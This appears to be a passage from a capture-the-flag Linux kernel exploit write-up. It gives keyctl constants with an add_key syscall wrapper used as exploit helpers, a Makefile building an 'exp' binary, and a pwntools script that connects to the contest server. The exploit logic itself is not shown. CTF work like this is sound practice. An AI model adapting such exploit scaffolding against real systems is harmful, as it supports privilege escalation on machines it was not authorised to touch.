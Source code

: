```c

/* keyctl commands */
#define KEYCTL_GET_KEYRING_ID           0       /* ask for a keyring's ID */
#define KEYCTL_JOIN_SESSION_KEYRING     1       /* join or start named session keyring */
#define KEYCTL_UPDATE                   2       /* update a key */
#define KEYCTL_REVOKE                   3       /* revoke a key */
#define KEYCTL_CHOWN                    4       /* set ownership of a key */
#define KEYCTL_SETPERM                  5       /* set perms on a key */
#define KEYCTL_DESCRIBE                 6       /* describe a key */
#define KEYCTL_CLEAR                    7       /* clear contents of a keyring */
#define KEYCTL_LINK                     8       /* link a key into a keyring */
#define KEYCTL_UNLINK                   9       /* unlink a key from a keyring */
#define KEYCTL_SEARCH                   10      /* search for a key in a keyring */
#define KEYCTL_READ                     11      /* read a key or keyring's contents */
#define KEYCTL_INSTANTIATE              12      /* instantiate a partially constructed key */
#define KEYCTL_NEGATE                   13      /* negate a partially constructed key */
#define KEYCTL_SET_REQKEY_KEYRING       14      /* set default request-key keyring */
#define KEYCTL_SET_TIMEOUT              15      /* set timeout on a key */
#define KEYCTL_ASSUME_AUTHORITY         16      /* assume authority to instantiate key */
#define KEYCTL_GET_SECURITY             17      /* get key security label */
#define KEYCTL_SESSION_TO_PARENT        18      /* set my session keyring on my parent process */
#define KEYCTL_REJECT                   19      /* reject a partially constructed key */
#define KEYCTL_INSTANTIATE_IOV          20      /* instantiate a partially constructed key */
#define KEYCTL_INVALIDATE               21      /* invalidate a key */
#define KEYCTL_GET_PERSISTENT           22      /* get a user's persistent keyring */
#define __NR_add_key 248

key_serial_t  add_key(const char *type,
                            const char *description,
                            const void *payload,
                            size_t plen,
                            key_serial_t ringid)
{
        return syscall(__NR_add_key,
                       type, description, payload, plen, ringid);
}
```

### `Makefile`

```Makefile
all:
    musl-gcc -static -o exp exp.c
    strip exp
```

### `exp.py`

```python
#!/usr/bin/python3

from pwn import *
import time
import base64
import subprocess

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

#r = process("./start-qemu.sh")
r = remote("others.2023.zer0pts.com", 9007)
cmd = r.recvline()[:-1].decode()
answer = subprocess.check_output(cmd.split(' '))
print(answer)
```